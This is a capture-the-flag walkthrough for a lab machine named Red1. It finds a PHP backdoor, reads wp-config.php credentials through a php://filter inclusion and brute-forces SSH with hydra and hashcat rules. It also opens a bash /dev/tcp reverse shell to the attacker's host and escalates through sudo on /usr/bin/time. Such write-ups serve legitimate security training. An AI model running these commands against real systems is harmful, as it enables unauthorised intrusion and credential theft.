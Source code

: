 # Red1
**IP: 10.0.4.7**
<br>
First of all, I did an `nmap` scan and found that there were two open ports:<br>
> 80 _apache_ <br>
> 22 _ssh_

The site looks pretty simple. But I found some things in `robots.txt`<br>

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://redrocks.win/wp-sitemap.xml
```
I went to the sitemap and found that there was a user named:
administrator

Checked it on the admin-login page and looks like it works.
<br>
Going to the site we know that there is a backdoor. The hacker said so.
<br>
Let's look for backdoors. We have a good wordlist with backdoor names in seclists.<br>
`gobuster dir -u http://10.0.4.7/ -w CommonBackdoors-PHP.fuzz.txt`<br>
Looks like we found one:<br>
```
/NetworkFileManagerPHP.php (Status: 500) [Size: 0]
```
There is nothing if we go there. Therefore, we can try to put different requests like:<br>
`/NetworkFileManagerPHP.php?search=qwe`<br>
We can use `wfuzz` to do it.<br>
```
wfuzz -c -u "http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test" -w /usr/share/wfuzz/wordlist/general/big.txt --hh 00
```
We will find that the word `key` works.<br>
Try `http://redrocks.win/NetworkFileManagerPHP.php?key=/etc/passwd` and you will get a good result.

We know that this is a WordPress site. Also, we know that WordPress sites have wp-config.php file where there is a lot of interesting information. If we try to access it we won't see it since our browser automatically translates php code. However, we can find a PHP base64 filter on PlayloadsAllTheThings. https://github.com/swisskyrepo/PayloadsAllTheThings 
Here is an example:<br>
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
Modify it for ourselves:<br>
```
http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php
```
It will give us a base64 string which we can decode and get the original wp-config.php code.<br>
Here is an interesting piece of code:<br>
```
...
/** MySQL database username */
define( 'DB_USER', 'john' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );
...
```
We know that there is an open ssh port. If we try to use these credentials to ssh it does not work.<br>
Also, we know that there is a backdoor file. Let's download it and see what it looks like.<br>
`http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=NetworkFileManagerPHP.php`<br>
Got a piece of code with another base64 line that says:<br>
`That password alone won't help you! Hashcat says rules are rules`<br>
And this is kind of a hint.<br>
We know that `hashcat` is a tool for password brute-forcing. We can see the work "rules" in the text which brings an assumption that we need to use a rule. _That is where we need to get acquainted with password-cracking rules._ Also, we can make an assumption that the rule is best64 since our hint was encoded in base64.<br>
We are going to take the password that we found in `wp-config.php`, put it in fule `pwd.txt`, and generate a custom wordlist with `hashcat` and a rule called `best64`.<br>
Our command will look like this:<br>
```
hashcat pwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > custom_wordlist.txt
```
Now, we have got our custom wordlist. Let's try to brute-force into `ssh`.<br>
```hydra -l john -P custom_wordlist.txt ssh://10.0.4.7```
> [22][ssh] host: 10.0.4.7   login: john   password: R3v_m4lwh3r3_k1nG!!02<br>
Looks like it worked.<br>

When we try to use `cat` command it runs `vi`, but when we use `vi` it runs `cat`.<br>
We can see that there are three users:<br>
> ippsec<br>
> john <br>
> oxdf <br>

After a couple of minutes using the `ssh shell` the connection was closed. The attacker made a script that kicked us out. The same password does not work, but we can brute force it again.<br>

### Upgrading our shell so we do not get kicked out.
1. Start a nc listener. `nc -lvnp 4444`
2. Run a simple reverse-shell on the victim machine. `bash -i >& /dev/tcp/10.0.4.4/4444 0>&1`
3. `python3 -c 'import pty;pty.spawn("/bin/bash")'` in our new reverse-shell.
4. *ctrl-z*
5. `stty raw -echo; fg`
9. `export TERM=xterm`
So now we have our new shell. Let's look at how we can escalate our privileges.<br>
The simplest way is to run `sudo -l` <br> 
```
User john may run the following commands on red:
    (ippsec) NOPASSWD: /usr/bin/time
```
This is what we got.
Go to https://gtfobins.github.io/gtfobins and find what we can do with /usr/bin/time.<br>
`sudo /usr/bin/time /bin/sh`<br>
However, by default sudo will try to run a tool with the privileges of the root user, but we have only privileges of ippsec, so we need to specify our user, so our command will look like:<br>
`sudo -u ippsec /usr/bin/time /bin/sh`<br>
_It is better to escalate our privileges to *ippsec* before we upgrade our shell_<br>
Let's look can we escalate our privileges to root.<br>
I used the next command to find all the folders where I have permission to write.<br>
`find / -writable -type d 2>/dev/null`<br>
It gave a couple of them, but the interesting one for me was:<br>
> /var/www/wordpress/.git <br>
If we go there, there are two files owned by root.<br>
I assume that the root user runs the rev file occasionally. But let's look at the processes to make sure.<br>
I am going to use pspy64s to look at the processes. https://github.com/wildkindcc/Exploitation/blob/master/00.PostExp_Linux/pspy/pspy64s.
I downloaded it to my machine, started the Python HTTP server, and downloaded it to the victim's machine.<br>
For some reason, it says that there is no storage left and I cannot download anything to the machine. However, the only thing that I had to do was replace the rev script with my own which I had permission to do. My own script would be a simple reverse shell coded in C. After root would run the rev script again I would get my root reverse-shell.








